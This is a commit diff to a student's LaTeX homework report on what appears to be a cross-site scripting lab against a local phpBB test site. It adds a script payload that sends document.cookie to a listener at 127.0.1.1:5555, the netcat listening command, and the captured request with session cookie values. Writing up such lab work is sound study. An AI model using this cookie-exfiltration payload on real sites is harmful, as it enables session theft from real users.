

Before and after one commit to Rmiller1673/Computer-Security-Practise, a LaTeX problem sheet (hw2/report.tex): part of page 2 of 2 before the commit and two parts of pages 2 and 3 of 5 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
almost final

```diff
--- a/hw2/report.tex
+++ b/hw2/report.tex
@@ -15,6 +15,8 @@ An alert box containing the text `XSS' pops up.\\
 
 \includegraphics[width=160mm]{task31.png}
 
+
+
 \section{Task 3.2}
 An alert box containing the contents of the cookie pops up.\\
 
@@ -22,7 +27,38 @@ An alert box containing the contents of the cookie pops up.\\
 
 \section{Task 3.3}
-The cookie information is all sent to the destination.
+\subsection{How the attack is done}
+Script inserted is as below. The browser will send a request to 127.0.1.1 (I'm booting up a VM from the HDD), port 5555, with the variable c being the cookie.
+\lstset{caption=Script, frame=single}
+\begin{lstlisting}
+<script>document.write('<img src="http://127.0.1.1:5555?c='+ document.cookie + '"">');</script>
+\end{lstlisting}
 
+Netcat(nc) is launched to listen to port 5555.
+\lstset{caption=Listening Command, frame=single}
 \begin{lstlisting}
-<script>document.write('<img src=http://127.0.1.1:5555?c='+ document.cookie + '>');</script>
+nc -l 5555
 \end{lstlisting}
+
+When the page is loaded, it will make a call to \emph{http://127.0.1.1:5555} and pass the variable \emph{c} which contains the cookie of the user. Netcat, which is listening on port 5555, will then recieve the request, and print it out on the terminal screen.
+
+\subsection{Result}
+\lstset{caption=HTTP Request, frame=single}
+\begin{lstlisting}
+GET /?c=phpbb2mysql_data=a%3A2%3A%7Bs%3A11%3A%22autologinid%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D;%20phpbb2mysql_sid=a48278d8c065062908d74694211d6d08;%20phpbb2mysql_t=a%3A29%3A%7Bi%3A2%3Bi%3A1350905947%3Bi%3A3%3Bi%3A1350874877%3Bi%3A4%3Bi%3A1350976737%3Bi%3A5%3Bi%3A1350876330%3Bi%3A6%3Bi%3A1350902146%3Bi%3A7%3Bi%3A1350902719%3Bi%3A8%3Bi%3A1350903518%3Bi%3A9%3Bi%3A1350903571%3Bi%3A10%3Bi%3A1350903703%3Bi%3A11%3Bi%3A1350903996%3Bi%3A12%3Bi%3A1350904099%3Bi%3A13%3Bi%3A1350905066%3Bi%3A14%3Bi%3A1350912092%3Bi%3A15%3Bi%3A1350905914%3Bi%3A16%3Bi%3A1350909515%3Bi%3A17%3Bi%3A1350909869%3Bi%3A18%3Bi%3A1350910491%3Bi%3A19%3Bi%3A1350910473%3Bi%3A20%3Bi%3A1350910511%3Bi%3A21%3Bi%3A1350910525%3Bi%3A22%3Bi%3A1350910620%3Bi%3A23%3Bi%3A1350961095%3Bi%3A24%3Bi%3A1350912072%3Bi%3A25%3Bi%3A1350912344%3Bi%3A26%3Bi%3A1350912488%3Bi%3A27%3Bi%3A1350959880%3Bi%3A28%3Bi%3A1350959882%3Bi%3A29%3Bi%3A1350961375%3Bi%3A30%3Bi%3A1350961697%3B%7D HTTP/1.1
+Host: 127.0.1.1:5555
+User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
+Accept: image/png,image/*;q=0.8,*/*;q=0.5
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate
+Connection: keep-alive
+Referer: http://www.xsslabphpbb.com/viewtopic.php?p=4
+
+
+\end{lstlisting}
+\lstset{caption=Cookie, frame=single}
+\begin{lstlisting}
+phpbb2mysql_data=a%3A2%3A%7Bs%3A11%3A%22autologinid%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D;%20phpbb2mysql_sid=a48278d8c065062908d74694211d6d08;%20phpbb2mysql_t=a%3A29%3A%7Bi%3A2%3Bi%3A1350905947%3Bi%3A3%3Bi%3A1350874877%3Bi%3A4%3Bi%3A1350976737%3Bi%3A5%3Bi%3A1350876330%3Bi%3A6%3Bi%3A1350902146%3Bi%3A7%3Bi%3A1350902719%3Bi%3A8%3Bi%3A1350903518%3Bi%3A9%3Bi%3A1350903571%3Bi%3A10%3Bi%3A1350903703%3Bi%3A11%3Bi%3A1350903996%3Bi%3A12%3Bi%3A1350904099%3Bi%3A13%3Bi%3A1350905066%3Bi%3A14%3Bi%3A1350912092%3Bi%3A15%3Bi%3A1350905914%3Bi%3A16%3Bi%3A1350909515%3Bi%3A17%3Bi%3A1350909869%3Bi%3A18%3Bi%3A1350910491%3Bi%3A19%3Bi%3A1350910473%3Bi%3A20%3Bi%3A1350910511%3Bi%3A21%3Bi%3A1350910525%3Bi%3A22%3Bi%3A1350910620%3Bi%3A23%3Bi%3A1350961095%3Bi%3A24%3Bi%3A1350912072%3Bi%3A25%3Bi%3A1350912344%3Bi%3A26%3Bi%3A1350912488%3Bi%3A27%3Bi%3A1350959880%3Bi%3A28%3Bi%3A1350959882%3Bi%3A29%3Bi%3A1350961375%3Bi%3A30%3Bi%3A1350961697%3B%7D
+\end{lstlisting}
+
+\includegraphics[width=160mm]{task33.png}
+\pagebreak
```
Also changed, not shown: hw2/task33.png, hw2/task34.png (added), hw2/task35.png (added), hw2/report.tex (30 more changed lines), 1 other file.
